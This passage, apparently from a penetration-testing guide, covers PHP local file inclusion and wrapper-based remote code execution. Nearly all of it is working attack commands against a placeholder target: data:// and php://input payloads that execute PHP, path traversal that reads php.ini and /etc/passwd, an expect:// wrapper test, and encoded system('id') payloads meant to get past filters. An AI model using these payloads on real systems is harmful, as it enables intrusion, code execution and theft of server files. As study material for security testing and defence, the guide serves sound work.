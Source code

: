 
## PHP Configuration Verification

### Checking allow_url_include

**Method 1: phpinfo() via Data Wrapper**
```bash
# Check PHP configuration
http://target.com/index.php?page=data://text/plain,<?php phpinfo(); ?>

# Look for: allow_url_include = On
```

**Method 2: Direct Configuration Check**
```bash
# Read php.ini via LFI
http://target.com/index.php?page=../../../../etc/php/*/apache2/php.ini

# Search for allow_url_include setting
curl -s "http://target.com/lfi.php?file=../../../../etc/php/7.4/apache2/php.ini" | grep allow_url_include
```

**Method 3: ini_get() Function**
```bash
# Check specific setting
http://target.com/index.php?page=data://text/plain,<?php echo ini_get('allow_url_include') ? 'Enabled' : 'Disabled'; ?>
```

### Testing Wrapper Support

**Comprehensive Wrapper Testing:**
```bash
# Test data wrapper
curl "http://target.com/lfi.php?file=data://text/plain,<?php echo 'Data wrapper works!'; ?>"

# Test input wrapper  
curl -X POST --data '<?php echo "Input wrapper works!"; ?>' "http://target.com/lfi.php?file=php://input"

# Test expect wrapper
curl "http://target.com/lfi.php?file=expect://echo 'Expect wrapper works!'"

# Test filter wrapper (always available)
curl "http://target.com/lfi.php?file=php://filter/convert.base64-encode/resource=/etc/passwd"
```

---

## Wrapper RCE Troubleshooting

### Problem: Data wrapper not working
```bash
# Issue: allow_url_include disabled
# Check 1: Verify configuration
http://target.com/lfi.php?file=data://text/plain,<?php echo ini_get('allow_url_include'); ?>

# Check 2: Try different encoding
# URL encode the payload
data://text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E

# Check 3: Try base64 encoding
echo '<?php system("id"); ?>' | base64
data://text/plain;base64,PD9waHAgc3lzdGVtKCJpZCIpOyA/Pgo=
```
